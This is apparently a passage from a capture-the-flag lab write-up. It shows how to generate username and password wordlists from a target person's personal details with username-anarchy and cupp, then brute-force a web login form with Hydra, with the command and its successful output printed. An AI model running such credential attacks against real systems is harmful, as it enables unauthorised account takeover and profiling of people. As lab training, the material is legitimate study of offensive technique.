 Use the two generated lists in Hydra against the target to brute-force the login form. Remember to change the target info for your instance.


```shell-session
smoothment@htb[/htb]$ hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these * ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 11:47:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 655060 login tries (l:14/p:46790), ~40942 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:Invalid credentials
[PORT][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 11:47:18
```

Once Hydra has completed the attack, log into the website using the discovered credentials and retrieve the flag.

# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250213154452.png)

Let's begin by creating the usernames list:

```
./username-anarchy Jane Smith > usernames.txt
```

Nice, let's create the passwords list using `cupp`:

```
cupp -i

___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990


> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990


> Child's name:
```